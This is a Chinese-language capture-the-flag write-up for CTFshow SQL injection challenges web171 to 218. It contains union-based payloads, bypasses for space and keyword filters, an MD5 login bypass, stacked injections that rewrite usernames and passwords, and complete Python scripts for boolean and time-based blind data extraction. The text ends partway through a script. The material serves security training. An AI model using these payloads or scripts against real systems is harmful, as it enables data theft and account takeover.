### web171

```
$sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

显然字符型注入，且只回显1条

```
 http://ff9bfe2a-5898-4dea-b591-89cd68ab7a67.challenge.ctf.show/select-waf.php1 order by 3
-1' union select 1,2,3 --+
-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='ctfshow_user' --+
-1' union select id,username,password from ctfshow_user --+
```

### web172

同上不过库名变成了ctfshow_user2

### web173 返回结果过滤flag

查询语句依旧不变

但注意这次多了一个waf

```
//检查结果是否有flag
    if(!preg_match('/flag/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
      
```

所以不管是查询内容还是显示的内容都不能存在flag

好办将第二列显示flag的编码一下即可

```
其余查询语句依旧
-1' union select id,to_base64(username),password from ctfshow_user3 --+
```

### web176 大写绕过union select

题目提示有过滤，但不知道过滤了什么，一步步探测

发现应该是过滤了union select

但是由于sql语句本身对语句是不区分大小写的，所以尝试大小写绕过

```
-1' uniOn seleCt 1,2,password from ctfshow_user --+ 
```

### web177 空格过滤

```
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

```
//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```

先进行尝试结果order by就先噶了，浅猜测一下是否是过滤空格

使用/**/发现没问题，即过滤空格，对应的空格绕过有

```
%0a %0b %0c %0d %09 %a0 /**/ 括号等
```

构造

```
-1'/**/union/**/select/**/1,2,password/**/from/**/ctfshow_user/**/%23
请注意末尾的注释符要是有%23，不然没有用，不知道为什么
```

### web178 过滤空格和/**/

跟上一题一样，就给个过滤不知道过了什么

先尝试同样的payload发现不行，再试一下空格有没有被过滤

```
输入1空格，发现无回显----过滤空格
在输入1/**/，也无=-----过滤了/***/
```

ok，尝试一下空格的其他替代如%0a

发现可行，收工

### web179 过滤空格 /**/ %0a

跟上一题一样的思路

```
输入1空格，发现无回显----过滤空格
在输入1/**/，也无=-----过滤了/***/
输入1%0a，也无------过滤%0a
尝试%0c可以，收工
```

### web180 --+中+过滤

跟上一题一样测试发现%0c可用，那什么被过滤了嘞，

先把上一题的payload放上，显然不对，发现不管输什么都不行，那就只能是一个固定的东西，那么我们就把目光集中一下，注释的问题，尝试--+，#，%23均不对，

那就做一些手脚吧，针对--+，首先要知道--+中的+代表的是空格的意思，那就可以使用%0c去代替+，发现可行，直接构造payload

```
-1'%0cunion%0cselect%0c1,2,password%0cfrom%0cctfshow_user%0c--%0c
```

### web181

```
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select/i', $str);
  }
```

显然空格代替均无，且select也无，那就不能进行select注入，看看别人怎么做的

```
知识点：or运算，两边分开运算，若前面无效则只执行后面的
```

```
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

那就看后半句

```
username !='flag' and id = '-1'or(username='flag')and'a'='a '
```

id=’-1‘显然不成立，所以只会执行后面的，即

```
(username='flag')---(真正的语句)and'a'='a'--（注释符不可用，所以用此来闭合后单引号）
```

ok，最终payload就是

```
-1'or(username='flag')and'a'='a
```

### web182

```
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select|flag/i', $str);
  }
```

ok，flag也被过滤了，但是根据之前的经验，flag对应的id为26

```
-1'or(id=26)and'a'='a
```

### web183

```
，//拼接sql语句查找指定ID用户
  $sql = "select count(pass) from ".$_POST['tableName'].";";
//对传入的参数进行了过滤
function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into/i', $str);
  }
```

这里是post传参，所以测试一下

根据之前题目所知存在ctfshow_user表，测试看一下返回结果



再看过滤，过滤了空格，=等语句ban了

那么可以尝试拼接

tableName=(ctfshow_user)where(pass)like'ctfshow%'

<br/>

那么就可以写脚本跑一下后续内容，盲注一下

```python
import requests
url='http://8a3e6ee8-54ee-4936-83ac-e40e147035f9.challenge.ctf.show/select-waf.php'
flagstr="}{-1234567890zxcasdqwertyfghvbnuiojklmZXCVBNMASDFGHJKLQWERTYUIOP"
flag='ctfshow'
while 1:
    for i in flagstr:
        payload={"tableName":"(ctfshow_user)where(pass)like'{0}%'".format(flag+j)}
        r=requests.post(url,payload)
        if "$user_count = 1;" in r.text:
            flag=flag+i
            print(flag)
            break
    if '}'in flag:
        break

```

### web184



相比于上一题过滤了where，所以，where判断语句就不行了，不过可以使用右连接、左连接等方式作为判断，其次‘也被过滤，所以like后就不能接字符串了，不过可以变成十六进制

```
tableName=ctfshow_user as a right join ctfshow_user as b on b.pass like 0x63746673686f7725
ctfshow% ---hex--- 0x63746673686f7725
```



此时返回的是右表加左表匹配到的内容

当不匹配时


只返回右表，因此根据这个就可以去盲注出答案

```python
#-- coding:UTF-8 --
# Author:dota_st
# Date:2021/4/8 21:24
# blog: www.wlhhlc.top
import requests
import binascii

def to_hex(s):
    # 字符串转16进制
    str_16 = binascii.b2a_hex(s.encode('utf-8'))
    str_16 = bytes.decode(str_16)
    res = str_16.replace("b'","").replace("'","")
    return res

url = "http://390a39fe-e6e7-4153-952a-f9e3606a2378.challenge.ctf.show/select-waf.php"
str = "0123456789abcdefghijklmnopqrstuvwxyz{}-"
flag = "ctfshow"
for i in range(0,666):
    for j in str:
        result = "0x" + to_hex(flag + j + "%")
        data = {"tableName":"ctfshow_user as a right join ctfshow_user as b on b.pass like {0}".format(result)}
        res = requests.post(url=url, data=data)
        if "$user_count = 43" in res.text:
            flag += j
            print(flag)
            if j=="}":
                exit()
            break

```

### web185，186



与上一题相比，过滤了数字，所以十六进制不行了

这里就要说明一下

数据库中true相当于1，而true+true==2

那么我们就可以去拼接出我们想要的数字

以下是生成chr的数字字符串函数

```python
def createNum(n):
    str = 'true'
    if n == 1:
        return 'true'
    else:
        for i in range(n - 1):
            str += "+true"
    return str
#把每一个字符转换成ascii码对应的数值
def change_str(s):
    str=""
    str+="chr("+createNum(ord(s[0]))+")"
    for i in s[1:]:
        str+=",chr("+createNum(ord(i))+")"
    return str
```

### web187


变题型了，看返回逻辑是要求username=admin，且在数据库中成功登录

其password是被md5加密的，且第二个参数是true，返回的是一个16位二进制

这里有特殊字符==ffifdyop==

```
echo md5('ffifdyop',true);
'or'6�]��!r,��b
```

那么密码这里就传进去后就会返回true

那么最终就是

```
username=admin
password=ffifdyop
```



### web 188



重点在sql语句，在过滤中过滤了许多东西，显然不太能拼接sql语句去查询，但是单看已知查询语句

比较是一个=，显然就是一个弱比较，当字符遇到数字会强制转换成数字，字符就会变成0，因此当我们传入0，就会和所有字母开头的数据进行匹配，从而查询到所有语句

当如果不是字母开头就匹配不到，那么就要使用   1||1

当匹配时，显然username=1是不匹配的，那么久就会执行||1，那么返回结果就是1，所以匹配成功

password，传数字即可

## 盲注

### web 189


看起来似乎和上一题区别不大，但是上一题的payload不行，那就说明密码不是字符开头的，就不能进行弱比较了，再看题目说明flag在api/index.php文件中，那么就可以使用load_file去打开文件，得到其中的内容，然后进行盲注比较

regexp相当于正则匹配

```python
#-- coding:UTF-8 --
# Author:dota_st
# Date:2021/4/15 22:14
# blog: www.wlhhlc.top
import requests
url = "http://e232d7fb-b70d-4123-a740-369d7137c5dd.challenge.ctf.show:8080/api/index.php"
all_str = "0123456789abcdefghijklmnopqrstuvwxyz-{}"
flag = "ctfshow{"

for i in range(200):
    for j in all_str:
        data = {
            "username":"if(load_file('/var/www/html/api/index.php')regexp('{0}'),0,1)".format(flag + j),
            'password':0
        }
        res = requests.post(url=url, data=data)
        if r"\u5bc6\u7801\u9519\u8bef" in res.text: #密码错误，如果是0，如果是1则返回查询失败
            flag +=j
            print(flag)
            break
        if j=='}':
            exit()

```

### web190 无



只对密码进行要求，显然就是在用户名出注入语句

但是，观看返回逻辑，没有返回选项

随便输入admin 0 返回密码错误，输入 0 0，显示用户名不存在，那么大概率就是盲注了

但注入判断条件该怎么写

当用户名是

```
admin' and 1#
```

也会返回密码错误

```
admin' and 0#
```

会返回用户名不存在

那么大概就是if语句判断了，最终脚本如下

```python
#-- coding:UTF-8 --
# Author:dota_st
# Date:2021/6/1 21:57
# blog: www.wlhhlc.top
import requests
url = "http://85a1ea9e-0f13-4e36-8891-bb635e166d58.challenge.ctf.show/api/"
data = {'username':'',
        'password':123456}
flag = ''
for i in range(1,46):
    start = 32
    end = 127
    while start < end:
        mid = (start + end) >> 1
        #payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        #取字段名：payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'"
        payload = "select f1ag from ctfshow_fl0g"
        #payload="select database()"
        data['username'] = f"admin' and if(ascii(substr(({payload}), {i} , 1)) > {mid}, 1, 2)=1#"
        res = requests.post(url=url, data=data)
        if "密码错误" in res.json()['msg']:
            start = mid +1
        else:
            end = mid
    flag = flag + chr(start)
    print(flag)


```

### 191 ascii


对用户名增加了过滤，不允许ascii

那其实很简单，ord也可以将字符转为ascii码

### 192 ascii ord hex


把ord hex都过滤了

首先取出这几个函数在这里的作用，都是用于判断，从而返回1或者2，在判断，给select语句返回1或0，所以只要存在一个可以匹配字符或者字符的其他形式的函数即可

那么之前有说过mysql的正则匹配函数regexp

```python

import requests
url = "http://566426d5-6b50-4579-9728-16a5e8cef4a6.challenge.ctf.show/api/"
data = {'username':'',
        'password':123456}
flag = ''
str="qwertyuiop{}asdfghjklzxcvbnm-0123456789_ "
for i in range(1,46):
    for j in str:
        payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        #取字段名：payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'"
        #payload = "select f1ag from ctfshow_fl0g"
        #payload="select database()"
        data['username'] = f"admin' and if(substr(({payload}), {i} , 1) regexp ('{j}'), 1, 0)=1#"
        res = requests.post(url=url, data=data)
        if "密码错误" in res.json()['msg']:
            flag+=j
    print(flag)


```

### 193|194 substr


过滤了substr，换其他截取字符函数即可，如mid limit等

或者

```
data = "admin' and if(({0})regexp('^{1}'), 1, 0)=1#".format(payload, flag + j)
其中^代表就是从第一位开始匹配
```

## 堆叠注入

### 195

首先已经提示说明堆叠注入 ，那如果平时怎么想到堆叠注入呢 ，当过滤了联合注入的union select且无法绕过时就可以去考虑这个注入方法

最后一个if告知我们要登录成功才能拿到flag，显然就是想办法登录

但是我们不知道用户名和密码，但是我们通过堆叠注入，写入更新语句，将用户名和密码修改

但是这里空格被过滤，以及其等替也是，所以可以选择括号包裹或者反引号包裹执行

```
设置用户名为1
1;update(ctfshow_user)set(username)=1
1;update`ctfshow_user`set`username`=1
设置密码
1;update(ctfshow_user)set(pass)=1
然后 1 1登录即可
```

### 196


限制用户名长度最长不超过16

一开始以为是什么操作能够绕过这个长度限制

结果是过滤不严谨，过滤的是se1ect不是select，只能说牛马

但事实上我还是不会，看wp

```
username:0;select(1)
pass:1
```

为什么怎么写呢，因为

当此语句中username=0，肯定是不存在的，那么在我们第二个语句select(1)，就会返回此值，即返回1，那么最终结果就是sql=1.在与我们传入的pass比较，相等，登录成功

### 197 198 199 200



select，update被过滤，原本想像update一样用其他语句来更新数据，

但是都需要into，显然没办法了

但是思索上一题，是让本身语句返回不出数据，从而让sql是我们已知的内容

由之前的题可知表名是ctfshow_user

```
0;show tables;
ctfshow_user
```

# 时间盲注

### 214

什么都没给，麻了，注入口都不知道，

post传参ip和debug为0

正常找一个盲注脚本

```python
import requests

url="http://e8bad2f6-84c0-468b-82ad-296231ad10fa.challenge.ctf.show/api/"

data={
    'ip':'',
    'debug':0
}
result=''
i=0
while True:
    i=i+1
    start=32
    end=127
    while start<end:
        mid=(start+end)>>1
        #payload='select group_concat(table_name) from information_schema.tables where table_schema=database()'
        #payload='select group_concat(column_name) from information_schema.columns where table_name="ctfshow_flagx"'
        payload='select flaga from ctfshow_flagx'
        data['ip']=f'if(ascii(substr(({payload}),{i},1))>{mid},sleep(1),1)'
        try:
            res=requests.post(url,data,timeout=1)
            end=mid
        except Exception as e:
            start=mid+1
    if start!=32:
        result=result+chr(start)
    else:
        break
    print(result)

```

### 215



上一题是整数型注入，那么这题大致上是字符型注入，那就加上引号和注释符

```python
import requests

url="http://e8bad2f6-84c0-468b-82ad-296231ad10fa.challenge.ctf.show/api/"

data={
    'ip':'',
    'debug':0
}
result=''
i=0
while True:
    i=i+1
    start=32
    end=127
    while start<end:
        mid=(start+end)>>1
        #payload='select group_concat(table_name) from information_schema.tables where table_schema=database()'
        #payload='select group_concat(column_name) from information_schema.columns where table_name="ctfshow_flagx"'
        payload='select flaga from ctfshow_flagx'
        data['ip']=f"'||if(ascii(substr(({payload}),{i},1))>{mid},sleep(1),1)"
        try:
            res=requests.post(url,data,timeout=1)
            end=mid
        except Exception as e:
            start=mid+1
    if start!=32:
        result=result+chr(start)
    else:
        break
    print(result)

```

这与上一题还有一个差别，就是payload要加上||或语句，这样才能正确执行我们插入的语句，不然会被当成字符串处理无法返回内容

### 216



我们的语句会经过from_base64函数编码，所以我们需要闭合这个函数才能

更改上一题关键代码

```
data['ip']=f"0)||'if(ascii(substr(({payload}),{i},1))>{mid},sleep(1),1)"
```

### 217 benchmark延时


首先肯定要括号闭合一下的，其次存在waf，我们传入的语句不能是sleep的大小写形式

那么就要找其平替

参见文章[https://www.jb51.net/article/212587.htm](https://)

那就使用benchmark

```
benchmark(count,exp)执行exp count次
```

<br/>

```python
import time

import requests

url = "http://f70ed68d-44f9-4ed5-8310-c6fee8c45cfe.challenge.ctf.show/api/"
# 表名 ctfshow_flagxccb,ctfshow_info
#payload = "if(ascii(mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{},benchmark(8000000,md5(0x31)),1)"
# 列名 id,flagaabc,info,id,ip,cname
# payload = "if(ascii(mid((select group_concat(column_name) from information_schema.columns where table_schema=database()),{},1))>{},benchmark(8000000,md5(0x31)),1)"
# flag
payload = "if(ascii(mid((select group_concat(flagaabc) from ctfshow_flagxccb),{},1))>{},benchmark(8000000,md5(0x31)),1)"


def valid_char(index: int, ascii: int) -> bool:
    data = {
        "ip": payload.format(index, ascii),
        "debug": 0
    }
    try:
        _ = requests.post(url, data=data, timeout=3)
    except:
        return True
    return False


result = ""
i = 1

while True:
    start = 32
    end = 127
    while not (abs(start-end) == 1 or start == end):
        p = (start + end) // 2
        if valid_char(i, p):
            start = p
            time.sleep(10) # benchmark 跑完大概需要 10s 多，3s 超时后再让它跑 10s，防止阻塞后全部超时影响时间盲注
        else:
            end = p
    if end < start:
        end = start
    if chr(end) == '!':
        break
    result += chr(end)
    print(f"[*] result: {result}")
    i += 1

```

有一个注意点，每次跑完都要加上sleep让程序休息一下，不然可能会因为请求过多环境崩溃

### 218 RLIKE REGEXP正则匹配



benchmark无了

```
concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b'
```

以上代码等同于sleep(5)秒

```
import time

import requests

url = "http://6a887fe9-0d60-463b-825c-6cfccacc07bb.challenge.ctf.show:8080/api/"
# 表名 ctfshow_flagxc,ctfshow_info
# payload = "ascii(mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{}"
# 列名 id,flagaac
# payload = "ascii(mid((select group_concat(column_name) from information_schema.columns where table_schema=database()),{},1))>{}"
# flag
payload = "ascii(mid((select flagaac from ctfshow_flagxc),{},1))>{}"


def valid_payload(p: str) -> bool:
    data = {
        "debug": 0,
